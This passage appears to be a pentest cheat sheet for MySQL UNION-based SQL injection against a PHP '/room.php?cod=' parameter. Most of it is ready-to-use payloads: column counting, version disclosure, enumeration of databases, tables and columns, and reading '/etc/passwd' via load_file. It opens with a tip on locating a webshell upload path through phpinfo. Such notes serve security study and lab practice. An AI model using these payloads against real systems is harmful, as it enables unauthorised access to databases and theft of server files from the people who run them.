 💡 We can find webshell location to upload in phpinfo (.php) DOCUMENT_ROOT or just by guessing.

If you suspect specific parameters you can use: https://github.com/payloadbox/sql-injection-payload-list/tree/master/Intruder/detect

### MySQL
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
#### Based Select

Number of Columns
```
/room.php?cod=3+ORDER+BY+7;--

/room.php?cod=3+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL;--
```

Get MySQL Version
```
/room.php?cod=33+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL,NULL;--
```

Database and User:

```
database()
user()
```

Iterate table names or limit to tables which are not default:
```
/room.php?
cod=33+UNION+SELECT+NULL,TABLE_NAME,NULL,NULL,NULL,NULL,NULL+from+information_schema.tables+limit+1+OFFSET+160;--

/room.php?
cod=33+UNION+SELECT+NULL,TABLE_NAME,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.tables+WHERE+table_schema+NOT+IN+('information_schema',+'mysql',+'performance_schema',+'sys')+limit+1+offset+0
```

Get Databases
```
/room.php?cod=33+UNION+SELECT+NULL,TABLE_SCHEMA,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.tables+limit+1+offset+0

/room.php?cod=33+UNION+SELECT+NULL,TABLE_SCHEMA,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.tables+where+table_name="room"
```

Get Table Columns
```
/room.php?cod=33+UNION+SELECT+NULL,COLUMN_NAME,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.columns+where+table_schema="hotel"+AND+table_name="room"
```

Read File:
```
/room.php?cod=33+UNION+SELECT+NULL,load_file("/etc/passwd"),NULL,NULL,NULL,NULL,NULL
```
